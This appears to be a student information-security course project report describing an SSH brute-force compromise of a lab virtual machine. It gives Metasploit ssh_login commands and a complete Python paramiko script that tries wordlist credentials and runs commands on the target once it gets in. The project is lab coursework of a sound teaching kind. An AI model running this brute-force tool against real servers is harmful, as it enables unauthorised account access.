






# King Fahd University of Petroleum & Minerals  
**Information and Computer Science Department**

---

## ICS344: Information Security

# Project Phase #1

## Phase #1

### Installing Linux Kali and Metasploit in Virtual Machine

---

#### Metasploit with ifconfig command and the IP we are attacking (`192.168.56.102`)

---

#### Checking connectivity with ping on Kali

---

#### Using nmap to identify the services that Metasploit uses

---

### 1.1 SSH Compromise using Metasploit

- Running Metasploit with `sudo msfconsole`

- Chose SSH as our target service due to its critical role in remote administration and its common deployment in server environments (`use auxiliary/scanner/ssh/ssh_login`)

- Set the target IP address (Remote HOST) for the attack:  
  ```
  set RHOSTS 192.168.56.102
  ```
- Define the username text file/password text file to try to brute-force during the SSH login attempt:  
  ```
  set USER_FILE usernames.txt && set PASS_FILE passwords.txt
  ```
- Enable detailed output during the attack:  
  ```
  set VERBOSE true
  ```
- Run brute force attack on the text files until finding the correct user and pass:  
  ```
  run
  ```
- After a successful exploit, Metasploit creates a "session" that maintains your connection to the target:  
  ```
  sessions
  ```

- You can use this command to access the session that is established between the attacker and the target and execute commands:  
  ```
  sessions -i 1
  ```
- We can use commands like `whoami`, `id`, or `hostname` to verify access to the target.

---

### 1.2 Successful SSH Compromise using a Custom Script

**The script:**

```python
#!/usr/bin/python3
import paramiko
import sys

def ssh_connect(hostname, username, password):
    ssh = paramiko.SSHClient()
    ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())

    try:
        ssh.connect(hostname, port=22, username=username, password=password, timeout=3)
        print(f"[+] Success! Valid credentials: {username}:{password}")
        return ssh  # Return the live connection object
    except:
        print(f"[-] Failed login attempt: {username}:{password}")
        return None

def main():
    target = "192.168.56.102" 
    user_file = "usernames.txt"
    pass_file = "passwords.txt"

    print(f"[*] Starting SSH brute force attack against {target}\n")

    try:
        with open(user_file, 'r') as uf:
            usernames = [u.strip() for u in uf.readlines()]
        with open(pass_file, 'r') as pf:
            passwords = [p.strip() for p in pf.readlines()]
    except FileNotFoundError:
        print("[!] Wordlist file not found.")
        sys.exit(1)

    for username in usernames:
        for password in passwords:
            ssh = ssh_connect(target, username, password)
            if ssh:
                print(f"\n[+] Attack successful! Access gained with {username}:{password}")
                print("[*] Executing remote commands...")

                try:
                    for command in ["whoami", "hostname", "id"]:
                        print(f"\n[*] Command: {command}")
                        stdin, stdout, stderr = ssh.exec_command(command)
                        output = stdout.read().decode().strip()
                        print(f"[+] Output: {output}")
                except Exception as e:
                    print(f"[!] Command execution error: {e}")

                ssh.close()
                return  # Exit after first success
    print("\n[-] Brute-force complete. No valid credentials found.")

if __name__ == "__main__":
    main()
```

---

### After Executing:
  

---

## Conclusion for Phase #1

- Successfully exploited SSH service using brute force attack.
- Demonstrated vulnerability through both Metasploit and a custom Python script.
- Gained complete command execution access to the target system.
- Verified access by executing system commands remotely.

---